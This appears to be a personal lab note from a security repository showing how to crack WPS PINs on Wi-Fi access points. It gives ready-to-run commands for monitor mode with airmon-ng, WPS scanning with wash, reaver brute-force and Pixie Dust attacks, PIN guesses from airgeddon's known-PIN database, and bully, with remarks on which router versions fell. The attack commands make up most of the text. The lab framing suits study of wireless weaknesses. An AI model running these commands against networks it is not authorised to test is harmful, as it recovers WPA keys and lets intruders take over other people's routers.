

# WPS

* Run [setup](../../setup.md) first
* Two terminals are needed
* AP must have WPS enabled using PIN here
    * For sake of time, just use `01235678`
    * This is the third guess and the guesses are not random
* WPS version 1.0 (brute force)
* If WPS is `Lck==Yes`, then an attack is not possible

Wash is an auxiliary tool designed to display WPS enabled Access Points and their main characteristics. Wash is included in the Reaver package.

Reaver performs a brute force attack against an access point's WiFi Protected Setup pin number. Once the WPS pin is found, the WPA PSK can be recovered and alternately the AP's wireless settings can be reconfigured

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Scan for APs with WPS -
sudo wash -i $INTERFACE

# Stop the scan
ctrl+c

# Wait until INTERFACE appears with BSSID
sudo reaver -b $BSSID -i $INTERFACE -v

# THIS TAKES FOREVER AND EVEN IF PIN IS SET TO FIRST GUESS
# DOES NOT WORK :( ON FRONTIER ROUTER ... WHICH IS WPS V1.0

# Try with the PixieWPS option (FAST)
sudo reaver -b $BSSID -i $INTERFACE -v -K
```
* Worked quite fast on WPS v2.0 router, not at all on WPS v1.0 router



## Airgeddon / Reaver / Bully

[Enable Network Manager](../../teardown.md)

```bash
sudo systemctl start NetworkManager
sudo apt install airgeddon -y
source /usr/share/airgeddon/known_pins.db
sudo airmon-ng check kill

# Some APs don't have a PIN ... used as blank
# See if we can find a match first six HEX of AP MAC BSSID
# Case-sensitive ... if pins are returned then try them
# For example
echo ${PINDB["0013F7"]}

14755989 48703970 06017637

# Then try each one
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 14755989
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 48703970
sudo reaver -b $BSSID -i $INTERFACE -v -K -p 06017637
```

## Bully

* Did not work

```bash
sudo bully -b $BSSID -c $CHANNEL -d -v 4  $INTERFACE
```

## References

* [Wi-Fi Protected Setup](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)
* [Reaver GitHub](https://github.com/t6x/reaver-wps-fork-t6x)
* [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)